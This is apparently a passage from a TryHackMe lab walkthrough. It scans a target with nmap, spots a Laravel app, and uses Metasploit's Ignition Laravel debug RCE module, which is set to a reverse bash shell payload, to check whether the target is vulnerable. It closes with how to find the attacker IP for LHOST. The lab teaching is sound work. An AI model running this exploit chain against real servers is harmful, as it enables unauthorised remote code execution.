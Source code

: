            
nmap -T4 -A -Pn MACHINE_IP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 10:30 EDT
Nmap scan report for 10.10.173.133
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Curabitur aliquet, libero id suscipit semper
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        

After loading the web application in our browser at http://MACHINE_IP:80 (use Firefox on the Kali web-Machine) and inspecting the Network tab, we can see that the server responds with an HTTP Set-Cookie header indicating that the server is running Laravel - a common web application development framework:

Image of the discovered web application. The browser's network developer tools are open and the 'Set-Cookie: laravel_session' HTTP header is highlighted

The application may be vulnerable to a remote code execution exploit which impacts Laravel applications using debug mode with Laravel versions before 8.4.2, which use ignite as a developer dependency.

We can use Metasploit to verify if the application is vulnerable to this exploit.

Note: be sure to set the HttpClientTimeout=20, or the check may fail. In extreme situations where your connection is really slow/unstable, you may need a value higher than 20 seconds.
Shell commands

           
$ msfconsole
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=MACHINE_IP HttpClientTimeout=20

[*] Checking component version to 10.10.143.36:80
[*] 10.10.143.36:80 - The target appears to be vulnerable.

        

Note: When using TryHackMe's Kali Web-Machine - you should use eth0 as the LHOST value (ATTACKER_IP), and not the VPN IP shown in the Kali Machine at the top-right corner (which is tun0).

To find out what IP address you need to use, you can open up a new terminal and enter ip addr. The IP address you need will start with 10.x.x.x. Remember, you will either need to use eth0 or tun0, depending on whether or not you are using the TryHackMe Kali Web-Machine.

Using ip addr to list the interfaces corresponding IP address in Kali

           
kali@kali:~$ ip addr
2: eth0:  mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:cd:41:12:70:5d brd ff:ff:ff:ff:ff:ff
    inet 10.9.11.45/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2973sec preferred_lft 2973sec
    inet6 fe80::cd:41ff:fe12:705d/64 scope link
       valid_lft forever preferred_lft forever
